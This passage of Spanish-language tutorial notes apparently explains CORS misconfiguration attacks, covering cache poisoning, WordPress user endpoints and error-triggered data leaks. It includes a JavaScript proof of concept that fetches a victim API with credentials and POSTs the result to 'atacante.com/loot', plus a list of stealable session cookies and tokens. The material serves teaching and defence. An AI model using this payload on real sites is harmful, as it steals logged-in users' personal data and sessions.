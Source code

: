 **Nivel avanzado:** si se olvida configurar `Vary: Origin`, el servidor puede cachear la respuesta y la misma versión “autenticada” servirse a otros usuarios (cache poisoning con robo de datos).

---

## 5. Caso real: API de WordPress

Endpoints típicos:

- `/wp-json/wp/v2/users` → datos de usuarios (público).
- `/wp-json/wp/v2/users/me` → perfil completo, solo autenticado.

**Explotación:**
Si un usuario está logueado y CORS con credenciales está abierto, un iframe o HTML malicioso en `atacante.com` roba su información personal completa.

---

## 6. Caso real: Ruby “Error Breakdown”

En apps tipo *Pastebin*, forzar un endpoint a devolver error en formato JSON puede exponer:

- Nombre, mail, teléfono.
- Tokens de sesión.
- Claves internas.

**PoC ejemplo:**

```
fetch("[https://victima.com/api/rota-mal.json](https://victima.com/api/rota-mal.json)", {
credentials: "include"
})
.then(r => r.json())
.then(data => fetch("[https://atacante.com/loot](https://atacante.com/loot)", {
method: "POST",
body: JSON.stringify(data)
}));
```

---

## 7. Explotación práctica

- **Arma principal:** un HTML + `fetch` con `credentials: include`.
- **Usuario logueado:** carga la página y sus datos se exfiltran de manera invisible.

**Escenarios de fuga común:**

- Cookie de sesión.
- Tokens CSRF o JWT.
- Información de perfil.
- Datos internos de API.

---
